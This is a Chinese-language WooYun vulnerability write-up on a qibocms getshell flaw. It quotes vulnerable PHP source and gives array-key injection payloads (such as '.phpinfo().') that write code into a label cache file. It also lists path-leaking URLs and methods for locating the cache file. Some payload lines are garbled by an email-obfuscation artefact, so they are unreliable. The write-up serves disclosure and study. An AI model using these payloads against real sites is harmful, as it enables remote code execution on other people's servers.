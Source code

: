 ## WooYun-2014-70366：qibocms全部開源系統 Getshell

## **詳細說明**
全局過濾函數

```php
function Add_S($array){

    foreach($array as $key=>$value){

        if(!is_array($value)){

            @eregi("['\\\"&]+",$key) && die('ERROR KEY!');

            $value=str_replace("&#x","& # x",$value);    //過濾不安全符號

            $value=preg_replace("/eval/i","eva l",$value);    //過濾不安全符號

            !get_magic_quotes_gpc() && $value=addslashes($value);

            $array[$key]=$value;

        }else{

            $array[$key]=Add_S($array[$key]); 

        }

    }

    return $array;

}
```

![1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-1.jpg)
被匹配出

當像下圖這樣提交的時候 匹配的key是asd 那麼就不會被匹配出 就不會被過濾。

![2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-2.jpg)

在label_module.php中 這裡無需登錄任何

```php
else

{

    foreach($label AS $key=>$value)

    {

        var_dump ($value);exit;

        //如果是新標籤時,即為陣列array(),要清空

        if(is_array($value))

        {

            $label[$key]='';

        }

    }

    //寫緩存

    if( (time()-filemtime($FileName))>($webdb[label_cache_time]*60) ){

        $_shows="<?php\r\n\$haveCache=1;\r\n";

        foreach($label AS $key=>$value){

            $value=addslashes($value);

            $_shows.="\$label['$key']=stripslashes('$value');\r\n";

        }

        write_file($FileName,$_shows.'?>');

    }    

}
```

由於qibo是

```php
foreach($_POST AS $_key=>$_value){

    !ereg("^\_[A-Z]+",$_key) && $$_key=$_POST[$_key];

}

foreach($_GET AS $_key=>$_value){

    !ereg("^\_[A-Z]+",$_key) && $$_key=$_GET[$_key];

}
```

所以這變量`$label` 可以直接控制。
<br />
然後循環出來 陣列中的key 和 value 都直接寫入到了緩存文件中。
<br />
這裡由於value 全局的函數 會受到第一次轉義 `$value=addslashes($value);`
<br />
這裡又經過了第二次轉義 那麼就是a\\'
<br />
`"$label['$key']=stripslashes('$value');\r\n"`
<br />
寫入時候的代碼 就看有個stripslashes 其實是不會被執行的 而就是把stripslashes寫入到文件當中。
<br />
這時候只有來利用key 由於在全局的過濾函數中沒對key做addslashes(也不能做addslashes) 所以不會被轉義 而且結合上面的 
<br />
就直接繞過了。
<br />
當寫入到文件中的時候是這樣的。

![3](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-3.jpg)
![4](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-4.jpg)

key中直接含單引號 被匹配到然後退出了。
結合上面的方式繞過。

![5](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-5.jpg)


這時候寫入的代碼為 $label['asd'']=stripslashes('');
<br />
後面的stripslashes('') 為啥是空的了呢
<br />
如果不是空的還能利用轉義符來搞。
<br />
因為我們這樣提交index.php?label[asd'][asd]=asda' 這樣的那麼他的value是陣列


```php
if(is_array($value))

        {

            $label[$key]='';

        }
```


就清空了。
<br />
一開始我一直在糾結如果閉合之前的這個[ 我就需要提交一個yu']# 類似這樣的
<br />
可是寫入的是陣列中的key 如果要在key中寫入]的話 那麼就成了
<br />
`http://**.**.**.**/qibov7/index.php?label[asd']][asd]=asda'`
<br />
就成了[asd']] 這樣 那麼提交的] 和之前[ 閉合 然後key就還是asd'
<br />
然後就一直在這糾結這個問題。 。
<br />
後面問了問P神 尼瑪 瞬間給我解決。
<br />
P神給的`['a'."${phpinfo()}".'']` 利用雙引號的二次解析來Getshell
<br />
那麼就讓我們的key為a'."${phpinfo()}".' 這個就行了 不含]


![6](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-6.jpg)

測試一下能不能執行

![7](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-7.jpg)

報錯了 這裡我們用一下錯誤抑制符
<br />
那麼也就是`'a'."[[email protected]()}".'']` 提交的key為`a'."[email protected]()}".'`

![8](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-8.jpg)
![9](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-9.jpg)

成功執行。
<br />
後面我再簡化了一下其實是不需要用到雙引號的二次解析的
<br />
`[''.phpinfo().'']` 提交的key為`'.phpinfo().'` 依舊可以直接執行

---


內容可以搞定了 這裡我們再來看一下文件名是怎麼來的

```php
$FileName=ROOT_PATH."cache/label_cache/";

    if(!is_dir($FileName)){

        makepath($FileName);

    }

    $FileName.=(ereg("\.php",basename($WEBURL))?preg_replace("/\.php(.*)/","",basename($WEBURL)):'index')."_".intval($ch)."_".intval($ch_pagetype)."_".intval($ch_module)."_".intval($ch_fid)."_".intval($city_id).'_'.substr(md5(getTpl("index",$chdb[main_tpl])),0,5).".php";
```

首先目錄cache/label_cache/
<br />
再來看文件名
```php
".intval($ch)."".intval($chpagetype)."".intval($chmodule)."".intval($chfid)."".intval($cityid).''.substr(md5 (getTpl("index",$chdb[main_tpl])),0,5).".php"
```
就是經過一系列的轉整 除開$ch 為1 其他的那些變量 我們都沒去定義 那麼intval 後為0
那麼就是
```php 
index_1_0_0_0_0_substr(md5(getTpl("index",$chdb[main_tpl])),0,5).php
```
來看一下這個 `getTpl("index",$chdb[main_tpl])`
<br />
這個其實就是模版地址 網站的絕對路徑+默認模版地址
<br />
這裡用到了網站的絕對路徑 所以我們要找一個可以洩漏絕對路徑的。
<br />
會洩漏絕對路徑的地方很多 貼兩處
```
http://**.**.**.**/data/label_hf.php

http://**.**.**.**//do/fontimg.php
http://**.**.**.**//hack/gather/inc/show_system_fid.php
```
以為本地測試為例

![10](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-10.jpg)

`D:\ApmServ\www\htdocs\qibov7\data\label_hf.php`
<br />
那麼網站的絕對路徑就為 `D:\ApmServ\www\htdocs\qibov7`
<br />
再加上默認模版路徑`/template/default/index.htm`
<br />
那就是 `D:\ApmServ\www\htdocs\qibov7/template/default/index.htm`
<br />
對這個進行md5一次 得到`82e4a1041f04d2edb779e87b37623786`
<br />
然後他這裡是`substr(md5(getTpl("index",$chdb[main_tpl])),0,5)`取前5位
<br />
那麼就是82e4a 再拼湊起來
<br />
那麼就得到 `cache/label_cache/index_1_0_0_0_0_82e4a.php`

![11](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-11.jpg)

找文件的第二種方法
<br />
在`windows iis`下可以利用短文件名來猜解
<br />
如果`windows apache`的話 那就更簡單了
<br />
直接`cache/labelcache/index~1.php`


![12](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.20/3.20-12.jpg)

直接就可以了。
當然 5位 也可以嘗試爆破一下。
